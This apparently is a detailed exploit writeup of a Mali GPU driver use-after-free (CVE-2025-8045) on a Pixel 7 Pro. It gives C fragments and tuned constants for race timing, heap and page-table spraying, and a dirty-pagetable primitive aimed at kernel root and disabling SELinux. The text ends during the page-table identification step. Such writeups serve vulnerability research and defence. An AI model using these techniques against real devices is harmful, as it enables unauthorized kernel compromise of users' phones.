





A complete walkthrough of the CSF dangling-pointer bug (CVE-2025-8045, mali_kbase r53p0–r54p1), the timer-wheel calibration trick that makes the race winnable from userspace, and the arm64 dirty-pagetable primitive it turns into.
Target of this writeup: Pixel 7 Pro (cheetah), Android 16, BP3A.250905.014, kernel 6.1.134, mali_kbase r54p0-00eac0 (UK ABI 1.36). Starting privileges: an unprivileged app-domain process with open("/dev/mali0"). Nothing else. Ending privileges: uid=0, SELinux permissive, interactive root shell. Reproduced: seven independent wins on a stock, unrooted device, usually within the first few attack rounds.
Introduction
mali_kbase has two functions that share one pointer, kctx->csf.cpu_queue.buffer, under csf.lock. One of them frees that pointer without setting it to NULL. The other one is supposed to clean up afterwards, but it skips the cleanup on a timeout path. Land an ioctl in the gap and cpu_queue.buffer becomes a pointer nobody owns, and every subsequent ioctl kfree()s it again.
That gap is a couple of microseconds wide, and it sits behind a 3-second kernel timeout that does not fire at 3 seconds. At CONFIG_HZ=250 the Linux timer wheel rounds the expiry up to a 256 ms bucket boundary, so the real deadline lands somewhere in a 256 ms spread that userspace cannot compute. My first PoC slept 3005 ms and hammered the ioctl: forty rounds, no warnings, nothing corrupted. It looked like the bug was not real.
What changed that was noticing the kernel tells you when the timeout fires, for free, through poll(), as long as you never read() the notification. One round of measurement is enough to pin the deadline forever, because the wheel’s buckets are a fixed grid in absolute time. On this device the completion expires at t0 + 3075 ms, not t0 + 3005.
Then comes the hard part: putting 64 threads on csf.lock so that they are still hammering it at the instant the completion expires, and flipping the state machine with a single read(). It turns on one constant. wave_fire() schedules the wave backwards from the read, so moving the read moves the whole wave with it. Reading “just after the deadline” (which is what the plan naively suggests) puts the entire wave in front of the deadline, and won nothing in ~210 rounds. +18 ms lands the wave’s start on the deadline instead, and that is where every win came from (see Placement is everything).
What you walk away with is a dangling 64 KB page. Free it and 16 pages go to the buddy allocator; a GPU spray takes them back, stamped, so we can see the page. Free it again and the kernel releases a page that is live Mali memory we still have mapped, and a page-table spray immediately behind it gets that page allocated back as a CPU page table. Now we own a page that is at once a CPU page table and GPU memory we can write to, and the rest is three short steps. Writing a single PTE through the GPU alias maps any physical page we choose into our own process that is an arbitrary physical read/write. We use it twice: first to zero one byte in selinux_state, which makes SELinux permissive, then to splice eight instructions over sel_read_enforce that call commit_creds(init_cred). After that, a child we forked back at startup becomes root simply by reading /sys/fs/selinux/enforce.
Vulnerability
The bug is a use-after-free on kctx->csf.cpu_queue.buffer, a 64 KB heap allocation belonging to the CSF driver’s CPU queue dump facility. Two separate defects in that facility combine into a dangling pointer that userspace can free again on demand.
Background: what the CPU queue dump actually is
Arm’s CSF (Command Stream Frontend) Mali driver has a debugging facility for dumping the state of user-space “CPU queues” (KCPU queues). It is a round trip:
- Something in the kernel decides it wants a dump, typically after a fence-signal timeout. It calls
kbasep_csf_cpu_queue_dump_print(). - That function sets
kctx->csf.cpu_queue.dump_req_status = BASE_CSF_CPU_QUEUE_DUMP_ISSUEDand wakes up the context’s event waiters. - Userspace notices via
poll(/dev/mali0, POLLIN),read()s abase_csf_notificationof typeBASE_CSF_NOTIFICATION_CPU_QUEUE_DUMP, and callsKBASE_IOCTL_CS_CPU_QUEUE_DUMPwith a buffer describing its queues. - That ioctl reaches
kbase_csf_cpu_queue_dump_buffer(), which copies the buffer in and hands it to the waiting kernel side viacomplete_all(). kbasep_csf_cpu_queue_dump_print()wakes fromwait_for_completion_timeout(), prints the buffer, frees it, and sets status back toCOMPLETE.
Three states matter:

The transition ISSUED → PENDING happens inside kbase_read(), via a cmpxchg. The whole exploit turns on that one fact: because the state only changes inside read(), and nothing else can trigger it, userspace decides the exact moment it happens down to the microsecond just by choosing when to call read().
The bug
Here are the two halves side by side (simplified from csf/mali_kbase_csf_cpu_queue.c, r54p0):
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
the ioctl side the kernel side
kbase_csf_cpu_queue_dump_buffer() kbasep_csf_cpu_queue_dump_print()
--------------------------------- ---------------------------------
buf = kzalloc(alloc_size); lock; status = ISSUED; wake; unlock
copy_from_user(buf, ...); timed_out = !wait_for_completion_
lock(csf.lock); timeout(&dump_cmp, 3s)
lock(csf.lock);
kfree(cpu_queue.buffer); /* [1] */ if (!timed_out && cpu_queue.buffer)
kfree + NULL it
if (status == PENDING) { else
cpu_queue.buffer = buf; "Dump error!" /* [2] */
complete_all(&dump_cmp); status = COMPLETE
} else unlock(csf.lock);
kfree(buf);
unlock(csf.lock);
[1] freed, but never set to NULL
[2] the timeout path: leaves cpu_queue.buffer alone
Two independent defects combine:
Defect 1: kbase_csf_cpu_queue_dump_buffer() frees without setting to NULL. The kfree(cpu_queue.buffer) at the top of the locked section leaves a stale pointer in the field. In the normal flow this is invisible: either status == PENDING and the field is immediately overwritten with buf, or the field was already NULL. It only matters if control can reach that kfree() a second time with the field still set.
Defect 2: kbasep_csf_cpu_queue_dump_print() skips cleanup on timeout. The condition is if (!timed_out && cpu_queue.buffer). When the completion times out, kbasep_csf_cpu_queue_dump_print() prints “Dump error!” and sets status = COMPLETE, but does not free or NULL cpu_queue.buffer. The assumption is that a timeout means nobody delivered a buffer, so there is nothing to clean up, which is wrong.
After the race, cpu_queue.buffer still points at a live 64 KB allocation. The only code that ever clears that field is the non-timeout branch of kbasep_csf_cpu_queue_dump_print(), the branch we just made it skip; hence, the pointer stays.
Every later KBASE_IOCTL_CS_CPU_QUEUE_DUMP starts with kfree(kctx->csf.cpu_queue.buffer) and only overwrites the field if the status is PENDING, which it no longer is. So each call frees the same pointer again.
That is a free primitive: a known-size heap object, freed on demand, as often as we like.
The kernel is loud about it, too. In a winning round dmesg shows:
1
2
mali_kbase_csf_cpu_queue.c:113 WARN -> the 3 s completion timed out
mali_kbase_csf_cpu_queue.c:71 WARN -> cpu_queue.buffer was non-NULL on entry
The :71 warning is the win signal.
Reaching the vulnerable path on demand
kbasep_csf_cpu_queue_dump_print() is not something you can call directly. It is reached from a fence signal timeout:
1
2
3
4
5
fence_signal_timeout_cb
-> queue_work(timeout_work)
-> kcpu_queue_timeout_worker
-> kcpu_fence_timeout_dump
-> kbasep_csf_cpu_queue_dump_print <-- our entry point
kbase_kcpu_fence_signal_prepare() arms a timer when a FENCE_SIGNAL command is prepared. That timer is cancelled when the command is processed. So: get a FENCE_SIGNAL prepared but never processed, and the timer fires on schedule.
kbase_csf_kcpu_queue_process() walks a queue in order and stops dead on the first command it cannot complete. So we enqueue two commands:
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
static int arm_race(base_kcpu_queue_id id, uint64_t cqs_gpu_va)
{
static struct base_cqs_wait_info wait_obj;
struct base_kcpu_command cmd;
wait_obj.addr = cqs_gpu_va;
wait_obj.val = 1; /* memory holds 0, so this wait never passes */
memset(&cmd, 0, sizeof(cmd));
cmd.type = BASE_KCPU_COMMAND_TYPE_CQS_WAIT;
cmd.info.cqs_wait.objs = (uint64_t)(uintptr_t)&wait_obj;
cmd.info.cqs_wait.nr_objs = 1;
if (enqueue_one(id, &cmd) < 0)
return -1;
memset(&cmd, 0, sizeof(cmd));
cmd.type = BASE_KCPU_COMMAND_TYPE_FENCE_SIGNAL;
cmd.info.fence.fence = (uint64_t)(uintptr_t)&fence_obj;
return enqueue_one(id, &cmd);
}
- A
CQS_WAITthat waits for*addr == 1on memory we control and deliberately leave at0. It never passes. - A
FENCE_SIGNALbehind it. It gets prepared (timer armed) but processing stalls forever on theCQS_WAITin front of it.
The wait address has to live inside CSF-event memory so the kernel can keep a permanent mapping of it, which means one BASE_MEM_CSF_EVENT page:
1
2
3
a.in.flags = BASE_MEM_PROT_CPU_RD | BASE_MEM_PROT_CPU_WR |
BASE_MEM_PROT_GPU_RD | BASE_MEM_PROT_GPU_WR |
BASE_MEM_SAME_VA | BASE_MEM_CSF_EVENT;
BASE_MEM_SAME_VA means the CPU address returned by mmap() is the GPU virtual address.
Create a KCPU queue, arm it, and roughly a second later the timeout worker calls kbasep_csf_cpu_queue_dump_print() for us. Each round creates a fresh queue and deletes it afterwards, so this is repeatable hundreds of times with no problem.
Exploitation
Winning the race is only the first half. The rest is turning a dangling 64 KB buddy page into a CPU page table we can write through the GPU, and turning that into root.
Why the obvious exploit loses 100% of the time
The obvious approach is: wait for the notification, sleep ~3005 ms, then hammer CS_CPU_QUEUE_DUMP as fast as possible. It never works, for two independent reasons.
wait_for_completion_timeout(3000 ms) does not expire at 3000 ms
msecs_to_jiffies(3000) at CONFIG_HZ=250 is 750 jiffies. The Linux timer wheel does not keep per-jiffy precision at that range. 750 jiffies lands in wheel level 2, whose granularity is 64 jiffies = 256 ms, and calc_index() rounds the expiry up to the next 64-jiffy bucket boundary.
So the real timeout fires somewhere in [3004, 3256] ms after the wait started, uniformly spread over a 256 ms window that userspace has no way to guess from first principles. A fixed 3005 ms sleep is almost always early.
Being early does not just waste an attempt — it destroys it
This is the part that makes the naive approach lose every single time rather than merely often.
If you have already read() the notification, status == PENDING. The very first hammered kbase_csf_cpu_queue_dump_buffer() then takes the PENDING branch:
1
2
cpu_queue.buffer = buf;
complete_all(&dump_cmp);
complete_all() wakes kbasep_csf_cpu_queue_dump_print() before its timer expires. wait_for_completion_timeout() returns non-zero, timed_out stays false, and kbasep_csf_cpu_queue_dump_print() takes the clean path: kfree(cpu_queue.buffer); cpu_queue.buffer = NULL;. The bug never triggers.
Calibration: measuring the deadline for free
Here is the key observation.
kbase_event_pending() returns true if any of several conditions hold, and one of them is kbase_csf_cpu_queue_dump_needed(), which is true exactly while dump_req_status == ISSUED.
That means:
- If we never
read()the notification,statusstaysISSUEDfor the entire lifetime of thekbasep_csf_cpu_queue_dump_print()call. poll(mali_fd, POLLIN)therefore stays readable that whole time.- It goes quiet at the precise instant
kbasep_csf_cpu_queue_dump_print()setsstatus = COMPLETE, which is a couple of microseconds after the completion timed out.
So the kernel hands us the deadline. We just have to watch the edge:
1
2
3
4
5
6
7
8
9
10
11
12
13
static int measure_deadline(uint64_t t0, uint64_t *out_deadline)
{
sleep_until_ns(t0 + WAIT_NS - 20ULL * 1000000ULL, 1); /* wake 20 ms early */
uint64_t limit = t0 + WAIT_NS + BUCKET_NS + 200ULL * 1000000ULL;
while (now_ns() < limit) {
if (!poll_ready(0)) { /* non-blocking poll, tight loop */
*out_deadline = now_ns();
return 0;
}
}
return -1;
}
t0 is the moment poll() first reported readable, which is when kbasep_csf_cpu_queue_dump_print() woke us. This costs one round (~3 s), and resolves the deadline to within microseconds of when kbasep_csf_cpu_queue_dump_print() actually finished.
Why one measurement is enough forever
Timer-wheel bucket boundaries are not relative to anything we did; they are a fixed grid in absolute jiffy time, 64 jiffies (256 ms) apart. Once we know one boundary, we know all of them. Store the phase and predict the rest:
1
2
3
4
5
6
7
8
9
static uint64_t predict_deadline(uint64_t t0, uint64_t phase)
{
uint64_t earliest = t0 + WAIT_NS; /* t0 + 3000 ms */
uint64_t d = earliest - (earliest % BUCKET_NS) + phase; /* snap to the grid */
while (d <= earliest) /* strictly after */
d += BUCKET_NS;
return d;
}
with g_phase = deadline % BUCKET_NS captured during calibration.
Measured on the target: the completion times out ~3075–3080 ms after ISSUED. Never ~3005. That 70 ms is precisely the gap the naive version could never see, and precisely why it lost.
The calibration is good to a millisecond or two, because the poll() edge is observed by a userspace thread, so it carries scheduling bias. That residual error is what the sweep in The flip mops up.
Keeping every pre-deadline call harmless
The second consequence of never read()ing is just as important as the first.
While status == ISSUED, kbase_csf_cpu_queue_dump_buffer() takes the else branch:
1
2
3
if (status == PENDING) { ... }
else
kfree(buf); /* frees its own fresh allocation and returns */
No complete_all(). No store into cpu_queue.buffer. The call allocates 64 KB, copies our data in, takes the lock, frees cpu_queue.buffer (which is NULL, so harmless), frees its own buffer, and returns.
Pre-deadline CS_CPU_QUEUE_DUMP calls are completely inactive. We can issue as many as we like, as fast as we like, for as long as we like, and nothing happens. This is what makes the next step possible.
The wave
Inside kbasep_csf_cpu_queue_dump_print(), wait_for_completion_timeout() gives up and twelve lines later takes csf.lock again. On a free lock that is about two microseconds, and nothing in userspace can aim that well.
So we do not aim. We keep csf.lock already busy when the completion expires, so kbasep_csf_cpu_queue_dump_print() has to wait for it. That turns a two-microsecond window into a millisecond-scale one.

The wave is 64 threads, each firing one CS_CPU_QUEUE_DUMP. The status is still ISSUED, so every call is inert (see Keeping every pre-deadline call harmless); occupying the lock is their whole job. Two things come out of that: kbasep_csf_cpu_queue_dump_print() cannot walk straight from its timeout into the locked section, and calls are still in flight 18 ms later when we flip the state machine, so one of them stores a pointer into cpu_queue.buffer after timed_out was set.
1
2
3
4
#define WAVE_THREADS 64
#define WAVE_SPAN_NS (18000 * 1000L) /* 18 ms */
#define WAVE_GATE_NS (6000 * 1000L) /* 6 ms */
#define READ_BIAS_NS WAVE_SPAN_NS /* see "Placement is everything" */
Placement is everything
The wave is scheduled backwards from the read (g_wave_go_ns = read_at - WAVE_SPAN_NS), so moving the read moves the whole wave with it:
- Read at deadline + 0.2 ms → the wave runs before the deadline and is over by the time the completion expires. 0 wins in ~210 rounds.
- Read at deadline + 18 ms → the wave starts on the deadline and hammers through it. Every win came from here.
So the obvious plan, “read just after the deadline”, is backwards; it puts the wave in front of the thing it is supposed to cover. READ_BIAS_NS = WAVE_SPAN_NS is what puts the wave’s first thread exactly on the deadline. It is the most important constant in the exploit.
Queue depth is not what buys the delay, incidentally. mutex_optimistic_spin() gives no FIFO guarantee, so kbasep_csf_cpu_queue_dump_print() can take the lock ahead of threads that were already waiting; stacking more threads on it does not push it further back. What buys the delay is the lock being continuously re-acquired across the deadline, which is why the wave is a span of staggered calls rather than one burst.
Three rules that keep it working
- Stagger the starts (~94 microseconds apart). Releasing all 64 at once leaves the scheduler unable to place most of them, and they quit after the gate without issuing anything; rounds reported 9 threads instead of 64.
- Give the controller its own core. Wave threads run on cores
0 … n-2; the thread doing theread()keepsn-1, so our own hammering is not what delays it. - Stop firing 6 ms before the read (the gate). A call issued after
kbasep_csf_cpu_queue_dump_print()has taken the lock frees the already-dangling pointer, and a few of those drive the page’s refcount negative so our own harvest frees nothing. With the gate at 100 microseconds we won the race 63 times and harvested nothing.
The whole win condition is one ordering, and the 12 ms between the wave’s start and the gate is the timing slack a single round can absorb:
1
2
wave start <= real deadline < wave gate < read
(read-18ms) (read-6ms)
The deadline has to land inside the wave, not after it. The last 6 ms are covered by the calls already in flight when the gate closes: they are still queued on csf.lock, so kbasep_csf_cpu_queue_dump_print() is still waiting behind them when the read() lands.
The flip
Everything is in place: the status is ISSUED so every queued call is inert, the completion timed out 18 ms ago, the wave stopped issuing 6 ms ago but its last calls are still sitting on csf.lock, and kbasep_csf_cpu_queue_dump_print() is waiting behind them.
One read() flips ISSUED → PENDING:
1
2
3
4
5
6
7
8
sleep_until_ns(read_at, 1);
{
struct base_csf_notification ev;
ssize_t rd = read(mali_fd, &ev, sizeof(ev)); /* exactly 64 bytes, or -ENOBUFS */
flip_type = (rd == (ssize_t)sizeof(ev)) ? ev.type : -1;
cpu_queue_dump_once(); /* one guaranteed post-flip call */
}
The cpu_queue_dump_once() immediately after the read() is not decoration. The gate closed 6 ms ago, so no wave thread is issuing any more; that call is the one kbase_csf_cpu_queue_dump_buffer() we know enters with the status already flipped to PENDING.
Every still-queued kbase_csf_cpu_queue_dump_buffer() now takes the PENDING branch and stores its own allocation into cpu_queue.buffer. kbasep_csf_cpu_queue_dump_print() runs last, sees timed_out == true, skips the cleanup, and leaves that pointer dangling.
Losing a round costs nothing
This is what makes the exploit practical rather than a one-shot gamble — every way of mistiming lands on a path the driver handles correctly:

No crashes, no corruption. You can run hundreds.
The sweep
Calibration is only accurate to a millisecond or two, and the phase shifts slowly over time, so we never know the exact read offset, we have to search a little around it. The search starts at READ_BIAS_NS, the offset we already know works, and steps outward in both directions rather than starting from zero. Since the bias is already about right, the sweep only has to cover that small calibration error and slow phase shift:
1
2
3
step = ((g_sweep + 1) / 2) * SWEEP_STEP_NS; /* step 1 ms */
delay = READ_BIAS_NS + ((g_sweep & 1) ? -step : step); /* +18, +17, +19, +16, ... */
g_sweep++;
If ±8 ms goes unrewarded, the phase is stale and calibration is redone. (An earlier draft centred the spiral on 0, so it never visited the only offset that wins.) Measured with the bias in place: root on round 2 four times, and on rounds 3, 5 and 6 of a run.
Let the queue empty before harvesting
1
2
3
4
5
6
7
8
9
static void wave_drain(void)
{
uint64_t limit = now_ns() + 2000ULL * 1000000ULL;
while (g_wave_active > 0 && now_ns() < limit)
usleep(2000);
usleep(50000); /* and let kbasep_csf_cpu_queue_dump_print(),
which is last in line, finish */
}
Harvesting early means our kfree() overlaps with the tail of the wave; and kbasep_csf_cpu_queue_dump_print() may not have run yet, so the pointer is not dangling when we look.
Heap shaping: why the allocation size is order 4
We have a free primitive on a dangling allocation. To exploit it, the freed memory must come back as something we control, and the size decides whether that is possible at all.
The kernel rounds our request up:
1
2
alloc_size = (buf_size + PAGE_SIZE) & ~(PAGE_SIZE - 1);
#define DUMP_BUF_SIZE 0xF000 /* -> alloc_size 0x10000 = 64 KB */
64 KB is far above KMALLOC_MAX_CACHE_SIZE (8 KB), so kzalloc() goes through kmalloc_large() → alloc_pages(order 4) and kfree() returns it via __free_pages(). A buddy page, not a slab object — that is what makes this a page-level UAF that GPU memory can reclaim.
Why order 2 (0x3000) is the wrong choice
0x3000 is the smallest buddy-backed size and looks like the obvious pick. It is a trap: free_the_page() routes anything with order <= PAGE_ALLOC_COSTLY_ORDER (3) onto the per-CPU page list for that order, and those lists are strictly per-order. An order-2 entry is invisible to order-0 allocations.
Half a gigabyte of GPU spray missed it entirely. The second
kfree()then hit a page nobody had taken back, drove its refcount negative, and the allocator rejected it withBad page state: nonzero _refcount.
Why order 4 is right
Order 4 is the smallest order strictly above PAGE_ALLOC_COSTLY_ORDER, so __free_pages_ok() puts it straight on the buddy free list, bypassing the per-CPU lists, where __rmqueue_smallest() will split it for order-0 requests once the smaller unmovable lists are drained. It also gives us 16 contiguous pages to search instead of 4.
The second free wants the opposite behaviour
By the second kfree(), Mali has broken the compound page up into single pages. folio_order() is 0, so kfree() releases exactly one page and order 0 is allowed on the per-CPU lists.
That is exactly what we want, because the per-CPU lists are LIFO: the free pushes onto the head, and the page-table spray immediately after pops from the head, on the same CPU, almost deterministically.
So the two frees want opposite allocator behaviour, and the size is chosen so the page’s natural lifecycle provides both.
The predrain, and why it cannot be sized down
Reclaim is split in two: PREDRAIN runs before the first kfree(), SPRAY after it.
1
2
3
4
#define PREDRAIN_REGIONS 32
#define PREDRAIN_PAGES 4096 /* 32 × 16 MB = 512 MB, never mapped */
#define SPRAY_REGIONS 32
#define SPRAY_PAGES 6144 /* 32 × 24 MB = 768 MB, stamped */
The predrain is never mapped, stamped or scanned — one ioctl per region and nothing else. It does three things:
- Empties kbase’s own page pool (64 MB ceiling here), so the spray reaches the buddy allocator from its first page.
- Prevents coalescing, so
__free_one_page()cannot merge our order-4 block into a larger order. - Drains the low-order
MIGRATE_UNMOVABLEfree lists, so__rmqueue_smallest()has to descend to order 4.
Sizing this at 128 MB was a real bug, and it fails violently. On a freshly booted device with ~5 GB free the low orders never empty:
__rmqueue_fallback()keeps stealing 2 MB pageblocks fromMIGRATE_MOVABLEand splitting them, refilling unmovable orders 0–8 and hiding our block. The block is never handed back, so the secondkfree()lands on a page nobody owns and panics the kernel.
Predrain and spray are not interchangeable. Post-free volume is what catches the block: because of that fallback-and-split behaviour, the block is only taken at the instants when orders 0–3 happen to be empty, so the odds track the number of post-free allocations. Cutting the spray to 128 MB while adding a 512 MB predrain produced zero wins.
Why GPU memory and not mmap()
Mali’s mem pool pulls order-0 pages from the buddy allocator with GFP_HIGHUSER, meaning MIGRATE_UNMOVABLE, the same migratetype kmalloc_large() freed into. Anonymous mmap() pages are MIGRATE_MOVABLE and come off a different free list entirely.
Stamping three qwords, not 512
kbase hands out pages with __GFP_ZERO, so an untouched page reads tag at the stamped offsets and zero everywhere else, while any reuse rewrites offset 0. Filling all 512 qwords buys nothing and costs three quarters of a gigabyte of memory traffic each way.
1
2
static const int stamp_slots[] = { 0, 255, 511 };
#define STAMP_SLOTS (int)(sizeof(stamp_slots) / sizeof(stamp_slots[0]))
One shared list for stamper and scanner, so they cannot drift apart. Three cache lines instead of sixty-four is what makes a 768 MB spray affordable.
From dangling page to owned page table
try_harvest() is the whole reclaim in five steps:
1
2
3
4
5
6
7
8
9
10
pt_reserve(); /* both BEFORE anything is freed */
reclaim_predrain();
/* 1 */ cpu_queue_dump_once(); /* kfree(P0) -> 64 KB to the buddy allocator,
cpu_queue.buffer still points at it */
/* 2 */ reclaim_spray(); /* Mali hands the split pages back, stamped */
/* 3 */ cpu_queue_dump_once(); /* kfree(P0) again -- now freeing a page that
is LIVE GPU memory we still map */
/* 4 */ pt_spray(); /* the kernel reuses it as a PTE table */
/* 5 */ scan_for_uaf(...); /* our stamp is gone, PTEs are there */
If the race was lost, cpu_queue.buffer is NULL, so both frees do nothing (kfree(NULL)), and the scan finds nothing.
The harvest is skipped entirely on a round that cannot have won. If the flip read() returned anything but the dump notification, the cmpxchg failed, so the status was already COMPLETE and nothing can be dangling:
1
2
if (flip_type != BASE_CSF_NOTIFICATION_CPU_QUEUE_DUMP)
continue; /* nothing can be dangling: skip */
This loses no wins and gains two things. First, it removes a double free from every round that could not have won. Second, it skips the heavy 1.28 GB allocate-stamp-free cycle on about half the rounds, work heavy enough to steal CPU and memory bandwidth from the wave and throw its timing off. A winning run now performs one harvest instead of eight.
Stamping
1
2
3
4
5
#define MAGIC_BASE 0x5541465041474500ULL /* "UAFPAGE" + index */
...
uint64_t tag = MAGIC_BASE | (uint64_t)(i * SPRAY_PAGES + p);
for (int k = 0; k < STAMP_SLOTS; k++)
q[stamp_slots[k]] = tag; /* three qwords, not 512 -- see "Stamping three qwords, not 512" */
Nothing else in the system has any reason to touch these pages. A page whose stamp changed is the UAF, definitionally.
Spraying the page-table
The idea: one fresh 2 MB-aligned mapping, touched once, costs the kernel exactly one order-0 page (GFP_PGTABLE_USER, unmovable) for its last-level PTE table.
1
2
#define PT_SPRAY_COUNT 2048
#define PT_SPRAY_BASE 0x200000000000ULL
Problem 1: one mmap() per region makes the spray compete with itself. The original code did 2048 separate mmap() calls. Each allocates a vm_area_struct from the slab, and slab pages come from the same order-0 unmovable pool. Those 2048 vma allocations raced our 2048 page-table allocations, and won.
The evidence was unambiguous: the first won race came back holding kernel pointers and 0x0060000000000fc3, a valid-looking descriptor with an all-zero frame. That is a vm_page_prot field. We had captured a vma slab page.
The fix: allocate one VMA and touch one page every 2 MB inside it. Same 2048 page tables, zero slab traffic.
Problem 2: the first touch of a fresh VMA allocates the wrong level first. Touching a fresh 4 GB VMA walks PUD → PMD → PTE, allocating in that order, so the PMD table is the first order-0 allocation after the free. The per-CPU LIFO hands it our page and every capture comes back as a level-2 table, which is not usable the simple way, because a level-2 block descriptor written into what the hardware walks as a PMD gets rejected, the kernel services the fault against the still-valid VMA, and every read returns a zero page.
The fix is pt_reserve(), which runs before the first free and pre-faults every PMD table by touching one page per 1 GB:
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
/* One spare region so the base can round up to 2 MB without losing a slot:
* an unaligned base would move the live PTE off index 0. */
g_pt_raw = mmap((void *)PT_SPRAY_BASE, span + 0x200000UL, PROT_READ | PROT_WRITE,
MAP_ANONYMOUS | MAP_PRIVATE | MAP_NORESERVE, -1, 0);
/* A transparent huge page would be backed by a PMD block descriptor and no
* last-level table at all, so there would be nothing to capture. */
madvise(g_pt_raw, g_pt_raw_len, MADV_NOHUGEPAGE);
base = ((uintptr_t)g_pt_raw + 0x1FFFFFUL) & ~0x1FFFFFUL;
for (int i = 0; i < PT_SPRAY_COUNT; i++)
g_pt[i] = (void *)(base + (uintptr_t)i * 0x200000UL);
/* Allocate every PMD table while the page we are about to free is still
* nobody's business. */
for (size_t off = 0; off < span; off += 0x40000000UL)
*(volatile uint64_t *)((char *)base + off) = 0;
The spray itself, run after the second free, can then only allocate last-level tables:
1
2
3
4
5
6
7
#define PT_TAG(i) (0x5054000000000000ULL | ((uint64_t)(i) << 8))
static void pt_spray(void)
{
for (int i = 0; i < PT_SPRAY_COUNT; i++)
*(volatile uint64_t *)g_pt[i] = PT_TAG(i);
}
The tag’s low two bits are deliberately clear so a stamp can never be mistaken for a live PTE. Because each region is 2 MB-aligned and only its first page is ever touched, its page table has exactly one live entry, at index 0 — that is the PTE we hijack.
Finding the captured page
1
2
3
4
5
6
7
static int looks_like_pte(uint64_t v)
{
if ((v & 3) != 3) /* valid, last-level page descriptor */
return 0;
uint64_t pfn = (v >> 12) & 0xFFFFFFFFFULL;
return pfn != 0 && pfn < (1ULL << 24); /* plausible frame: PA < 64 GB */
}
scan_for_uaf() walks all 768 MB of stamped GPU memory for a page that changed. A changed page is not necessarily the page table we want: pt_spray() also allocates one ordinary data page per region from the same pool, so the freed page can come back as that instead. The scan therefore makes two passes. First it looks for a page that looks like a page table — one where every non-zero 8-byte word is a valid descriptor, and at least one such word is present — and takes it if found. Only if no page matches that pattern does it settle for a page that merely changed but does not look like a table.
Note what it deliberately does not require: that entry 0 specifically is live. That stricter test rejected a real capture: a table with 186 live descriptors and a zero entry 0 — a PMD. Which level it is gets settled next, by testing.
The fallback case is reported separately, because it is still a won race with only a missed reclaim (kernel pointers there mean a slab page; our own stamps mean user data).
Identifying the level without knowing a physical address
identify_window() works out both the level and which of our 2048 regions the table backs, by testing:
Zero the whole table and flush. Every mapping it described becomes a translation fault, and for our private anonymous spray the handler installs fresh zero pages, so the stamps vanish from exactly the regions this table covered. Count them:
- 1 region changed → a last-level PTE table. Our regions are 2 MB-aligned with only the first page touched, so the entry is index 0.
- many regions changed → a level-2 PMD table, one entry per 2 MB, at
(VA >> 21) & 511, and a window there would need a block descriptor, which is whypt_reserve()works to prevent this case.
1
2
3
g_pt_level = (changed == 1) ? PT_LEVEL_PTE : PT_LEVEL_PMD;
...
idx = (g_pt_level == PT_LEVEL_PMD) ? (int)(((uintptr_t)g_pt[win] >> 21) & 511) : 0;
